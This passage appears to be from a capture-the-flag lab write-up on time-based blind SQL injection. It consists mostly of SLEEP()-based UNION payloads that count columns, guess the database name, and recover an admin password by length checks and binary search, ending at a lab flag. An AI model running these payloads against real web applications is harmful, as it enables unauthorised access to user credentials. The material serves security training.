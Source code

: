 ```sql
admin123' UNION SELECT SLEEP(5);--
```

If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:

```sql
admin123' UNION SELECT SLEEP(5),2;--
```

This payload should have produced a 5-second time delay, which confirms the successful execution of the UNION statement and that there are two columns.

You can now repeat the enumeration process from the Boolean based SQL Injection, adding the SLEEP() method into the UNION SELECT statement.

If you're struggling to find the table name the below query should help you on your way:

```sql
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```

```
admin123' UNION SELECT sleep(5),2 from users where username='admin' and length(password) < 20; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and length(password) < 10; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and length(password) < 5; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and length(password) = 4; --

admin123' UNION SELECT sleep(5),2 from users where username='admin' and substring(password, 1, 1) REGEXP '[0-9]'; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and substring(password, 2, 1) REGEXP '[0-9]'; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and substring(password, 3, 1) REGEXP '[0-9]'; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and substring(password, 4, 1) REGEXP '[0-9]'; --

admin123' UNION SELECT sleep(5),2 from users where username='admin' and password < 5000; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 2500; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 3750; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4375; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4687; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4843; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4921; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4961; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4941; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4951; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4956; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4958; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4959; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password = 4960; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password = 4961; --

THM{SQL_INJECTION_MASTER}
```
